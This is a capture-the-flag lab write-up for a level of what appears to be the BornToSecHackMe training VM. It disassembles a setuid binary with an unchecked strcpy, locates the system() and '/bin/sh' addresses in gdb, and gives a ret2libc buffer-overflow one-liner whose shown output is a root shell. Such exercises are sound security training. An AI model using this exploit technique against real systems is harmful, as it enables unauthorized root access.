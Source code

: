 = 646da671ca01bb5d84dbb5fb2238dc8e

## Now let's ssh on zaz

ssh zaz@192.168.56.109

in this level we got an executable called ./exploit_me and a folder mail
we're just going to use the executable and use gdb to inspect it:

```asm
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax # here is the retur value if a strcpy fails
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
```
The executable takes a string as an argument using pattern we know that it crashed when we send it a string with more than 140 characters.
It seems like we have to do a buffer overflow to get the password?

instead of using a shellcode we're just gonna get the address of the system function and variable bash

```shell
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system> # address for system
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58 # address for /bin/sh
```

the "script" looks like that:

```
./exploit_me `python -c "print('0' * 140 + '\x60\xb0\xe6\xb7' + 'AAAA' + '\x58\xcc\xf8\xb7')"`
```

```
zaz@BornToSecHackMe:~$ ./exploit_me `python -c "print('0' * 140 + '\x60\xb0\xe6\xb7' + 'AAAA' + '\x58\xcc\xf8\xb7')"`
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000`��AAAAX���
# whoami
root
# 
```

DONE